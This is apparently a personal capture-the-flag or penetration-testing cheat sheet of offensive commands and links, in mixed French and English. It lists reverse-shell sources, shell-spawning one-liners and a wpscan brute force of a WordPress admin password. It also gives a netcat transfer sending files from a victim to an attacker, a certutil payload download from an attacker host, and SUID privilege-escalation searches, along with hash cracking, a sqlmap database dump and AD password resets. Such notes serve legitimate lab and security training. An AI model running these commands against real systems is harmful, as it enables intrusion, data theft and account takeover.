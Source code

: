 ===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================

[URL] linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS
[URL] winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat)
[URL] netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip

-------------------------------------------------------------------------------------------------------------------------------------------+

[+] => PAYLOADSALLTHETHINGS     - https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...)
[+] => BINARIES EXPLOIT         - https://gtfobins.github.io/
[+] => INFO GATHERING           - sudo -l
[+] => PHP REVERSE SHELL        - https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => WORDPRESS TOOL           - wpscan => ex (brute force passwords) wpscan --url <ip>/blog -U admin -P /usr/share/wordlists/rockyou.txt
[+] => TRANSFER FILE VIA NETCAT - [victime] => nc -nv <ip> 1337 < <file_to_transfer> -|- [attacker] =>nc -lnvp 1337 > <file_to_transfer>

-------------------------------------------------------------------------------------------------------------------------------------------+

[CMD]           => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD]           => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list>
[CMD]           => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
      smbclient //<ip>/anonymous (-U pour un utilisateurs)
      smbget -R smb://<ip>/anonymous
[CMD]           => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD]           => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD]           => sqlmap -r file.txt --dbms=mysql –-dump | (after copied a burp request in a txt file)
[CMD]           => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)

[CMD][WINDOWS]  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
[CMD][AD][PS]   => Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
[CMD][AD][PS]   => Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose 
-------------------------------------------------------------------------------------------------------------------------------------------+

[?] Using "-p" on an SUID file will run it with the owner's permission. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
